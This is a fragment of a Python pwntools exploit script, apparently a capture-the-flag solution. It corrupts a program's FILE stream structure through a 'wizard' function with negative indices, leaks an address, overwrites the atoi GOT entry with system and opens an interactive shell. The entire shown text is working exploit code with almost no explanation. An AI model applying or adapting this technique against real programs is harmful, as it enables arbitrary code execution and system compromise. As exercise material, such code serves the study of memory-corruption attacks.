#gdb.attach(io)
system = libc_base + libc.sym['system']
wizard(-2,p64(0)*3)
login_file = 0x6020E0                    #_IO_read_ptr     #_IO_read_end            # _IO_read_base
payload = b'\x00'*2 + p64(0xFBAD24A8) 
wizard(0,payload)
payload =                               p64(login_file) + p64(login_file + 0x50) + p64(login_file)
#gdb.attach(io)
wizard(0,payload)
#gdb.attach(io)
log_addr = u32(io.recv(4))
success('log_addr---->'+hex(log_addr))
           #_IO_write_base       #_IO_write_ptr        #_IO_write_end 
payload = p64(log_addr + 0x80) + p64(0xdeadbeef) + p64(log_addr + 0x80) 
#gdb.attach(io)
wizard(0,payload)
payload = p64(elf.got['atoi'] + 0x80) + p64(elf.got['atoi'] + 0x800)
wizard(0,payload)
gdb.attach(io)
wizard(-2,'\x00')
#gdb.attach(io)
wizard(-2,'\x00'*11)
wizard(-2,'\x00'*11)

wizard(0,p64(system))

io.sendlineafter('choice>> ','sh')

io.interactive()
```
